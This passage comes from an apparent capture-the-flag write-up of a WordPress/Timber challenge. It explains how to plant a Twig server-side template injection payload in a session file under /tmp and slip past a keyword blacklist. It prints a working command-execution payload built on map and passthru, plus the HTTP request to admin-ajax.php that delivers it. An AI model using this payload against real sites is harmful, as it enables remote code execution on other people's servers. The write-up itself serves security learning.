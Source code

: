 Cool!

Since we now control a template file's content, **we can use AJAX action `save_session` to inject our SSTI payload into our session file**! 

But wait! Can we reach to directory `/tmp`?

```php
Timber::$dirname = array( '../../../../../../../../../../../../tmp', 'templates' );
[...]
function validate($filename) {
    $fullPath = Timber::$dirname[0] . '/' . $filename;
    [...]
}
```

Oh, the `$fullPath` is basically `/tmp/$filename`. So, yes we can reach to directory `/tmp`!

## Exploitation

In order to pass all the checks in function `validate`, we need to fulfill the following requirements:
1. The template filename must not be the blacklisted file extension. (This check is completely useless)
2. The template file's content must include the Twig template string literal, such as `{{.*?}}`
3. The template file's content must not include the blacklisted keywords

According to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig---code-execution), we can use **function `map` and `passthru` to execute OS commands**, as they're not included in the keywords array.

That being said, we can inject the following Twig SSTI payload to execute OS commands!

```twig
{{['id']|map('passthru')}}
```

Let's try this!

```http
GET /wp-admin/admin-ajax.php?action=save_session&session_data={{['id']|map('passthru')}} HTTP/1.1
Host: localhost


```
